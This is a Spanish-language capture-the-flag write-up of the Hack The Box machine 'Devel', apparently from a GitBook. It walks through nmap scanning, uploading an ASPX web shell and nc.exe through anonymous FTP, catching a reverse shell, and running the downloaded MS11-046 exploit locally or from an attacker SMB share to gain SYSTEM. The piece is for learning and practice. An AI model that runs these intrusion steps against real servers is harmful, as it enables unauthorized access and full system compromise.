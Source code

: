 ```yaml
---
cover: ../../../.gitbook/assets/Devel.png
coverY: 0
---
```


# Devel

## Reconocimiento

Lanzamos una traza icmp para ver si nos responde la maquina

```shell
> ping -c 1 10.10.10.5
PING 10.10.10.5 (10.10.10.5) 56(84) bytes of data.
64 bytes from 10.10.10.5: icmp_seq=1 ttl=127 time=35.4 ms

--- 10.10.10.5 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 35.388/35.388/35.388/0.000 ms
```

Vamos a escanear todo el rango de puertos abiertos de la maquina

```shell
> nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.5

PORT   STATE SERVICE REASON
21/tcp open  ftp     syn-ack ttl 127
80/tcp open  http    syn-ack ttl 127
```

De los puertos encontrados vamos a lanzar scripts básicos de reconocimiento y escanear versiones

<pre class="language-shell"><code class="lang-shell"><strong>> nmap -sCV -p21,80 10.10.10.5
</strong>
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       &#x3C;DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
80/tcp open  http    Microsoft IIS httpd 7.5
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/7.5
|_http-title: IIS7
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
</code></pre>

### Puerto 21 (ftp)

Con lo escaneado anteriormente vemos que el puerto 21 ftp tiene habilitado el anonymous vamos a echarle un vistazo

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

### Puerto 80 (http)

<figure><img src="../../../.gitbook/assets/IIS.PNG" alt=""><figcaption></figcaption></figure>

Si vemos el código fuente la imagen tiene el mismo nombre que en lo que havia en el ftp

<figure><img src="../../../.gitbook/assets/image.PNG" alt=""><figcaption></figcaption></figure>

Si tenemos permisos para subir en el servidor ftp podríamos subir una web-shell en aspx para ejecutar comandos porque como es un IIS lo interpreta como un archivo

```shell
> cp /usr/share/davtest/backdoors/aspx_cmd.aspx .
> ls
 aspx_cmd.aspx
```

Vamos a subir el cmd.aspx en el servidor ftp con el comando `PUT`

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.       
ftp> put aspx_cmd.aspx
200 PORT command successful.
150 Opening ASCII mode data connection.
226 Transfer complete.
1438 bytes sent in 0.00 secs (29.1784 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  08:46AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
ftp> 
```

Y podemos ejecutar comandos

<figure><img src="../../../.gitbook/assets/aspx.PNG" alt=""><figcaption></figcaption></figure>

Como podemos ejecutar comandos lo que nos interesa es poder ganar acceso a la maquina no o recibir una reverse shell con netcat pues vamos a subir el nc.exe al servidor ftp

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary # Muy importante
200 Type set to I.
ftp> put nc.exe
local: nc.exe remote: nc.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
28160 bytes sent in 0.00 secs (295.1150 MB/s)
ftp> ls
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
04-08-21  09:01AM                 1438 aspx_cmd.aspx
03-17-17  05:37PM                  689 iisstart.htm
04-08-21  09:05AM                28160 nc.exe
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

Claro pero nosotros no sabemos donde ahora esta el nc.exe pues buscando en google la ruta por defecto del IIS vemos que es la siguiente

<figure><img src="../../../.gitbook/assets/path.png" alt=""><figcaption></figcaption></figure>

**➜** `C:\inetpub\wwwroot\nc.exe`

Pues nos enviamos una reverse shell por nc de la siguiente manera

* Primero nos ponemos en escucha en otra ventana diferente con nc

```shell
> rlwrap nc -lvnp <puerto> # Rlwrap sirve para que podamos tener una shell mas interactiva
listening on [any] 4444 ...
```

* Y estaríamos dentro

<pre class="language-shell"><code class="lang-shell"><strong>> rlwrap nc -lvnp 4444
</strong>listening on [any] 4444 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.5] 49160
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

whoami
whoami
iis apppool\web

c:\windows\system32\inetsrv>
</code></pre>

## Escalada de Privilegios

Ahora nos queda elevar de privilegios porque tenemos por ahora un usuario con bajos privilegios

Vemos que es un windows 7 y la versión es un tanto antigua vamos a buscar un **exploit** para poder escalar de privilegios al usuario **administrador**.

```shell
C:\Windows\Temp> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
```

Buscamos en google **6.1.7600 N/A Build 7600** exploit y encontramos el repositorio de github de abatchy17

* Nos descargamos el **ms11-046.exe**

```shell
> wget https://github.com/abatchy17/WindowsExploits/blob/5e9c25cda54fe33fb6e1fd3ae60512a1113b41df/MS11-046/MS11-046.exe
> ls
 ms11-046.exe
```

Para subir-lo a la maquina victima se puede hacer de 2 formas desde ftp o compartiendo una carpeta compartida por smb

1. FTP

```shell
> ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:red): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put ms11-046.exe
local: ms11-046.exe remote: ms11-046.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
139699 bytes sent in 0.16 secs (859.7100 kB/s)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv> C:\inetpub\wwwroot\ms11-046.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```

2. Con smbserver

```shell
> smbserver.py smbFolder $(pwd)
```

```shell
c:\windows\system32\inetsrv>whoami
whoami
iis apppool\web
c:\windows\system32\inetsrv>\\10.10.16.2\smbFolder\exploit.exe
c:\Windows\System32>whoami
whoami
nt authority\system
```
